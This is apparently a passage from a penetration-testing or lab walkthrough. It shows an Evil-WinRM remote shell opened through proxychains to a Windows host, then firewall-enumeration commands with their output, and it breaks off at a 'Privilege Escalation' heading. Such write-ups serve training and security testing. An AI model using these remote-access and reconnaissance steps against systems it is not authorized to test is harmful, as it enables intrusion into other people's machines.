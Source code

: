```bash
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
*Evil-WinRM* PS C:\Users\joe\Documents> whoami
joe-lptp\joe

```

```bash

# to lookup firewall rules

Display all dynamic inbound rules:
netsh advfirewall firewall show rule name=all dir=in type=dynamic

# windows defender
Evil-WinRM* PS C:\Users\joe\Documents> netsh firewall show state
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK

Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Enable
Group policy version              = Windows Defender Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at https://go.microsoft.com/fwlink/?linkid=121488 .


```
## Privilege Escalation
